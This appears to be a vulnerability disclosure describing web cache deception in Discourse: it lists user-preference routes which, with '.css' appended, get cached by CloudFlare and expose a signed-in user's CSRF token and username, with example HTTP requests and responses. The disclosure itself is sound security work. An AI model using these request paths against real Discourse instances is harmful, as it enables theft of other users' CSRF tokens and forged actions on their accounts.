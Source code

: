 ### Technical details

The issue with Discourse is that there's a lot of routes which all of them exposes the user's CSRF-token as well as the user's username in the header. This applies not only to status `200` but also to status `404`.

Here are some routes which will return status `200` on `try.discourse.org` even if we have appended `.css` on them (which is a trigger for CloudFlare to cache this URL):

```
/u/my/preferences.css
/u/my/preferences/username.css
/u/my/preferences/card-badge.css
```
Results in:

```
HTTP/1.1 200 OK
X-Discourse-Route: users/preferences

HTTP/1.1 200 OK
X-Discourse-Route: users/preferences

HTTP/1.1 200 OK
X-Discourse-Route: users/card_badge
```
(This seems to be a general issue with the `X-Discourse-Route: users/*` routes)

Also, the normal 404-page actually reveals the current user's CSRF token (this request is done while being signed in):

```
GET /u/x.css HTTP/1.1
Host: try.discourse.org

<meta name="csrf-token" content="aYBW0N/1nfI1PHBa24YNx+...+BJJX+Fg==" />
```

You currently don't have `try.discourse.org` behind CloudFlare, but I've verified with a few instances that I noticed did.

What you will see is the following:

Issuing the following request twice while being signed in:

```
GET /u/x.css HTTP/1.1
```

Will lead to:
```
CF-Cache-Status: HIT
```

As well as:

```
X-Discourse-Username: test

<meta name="csrf-token" content="6bE...VnlQ==" />
```
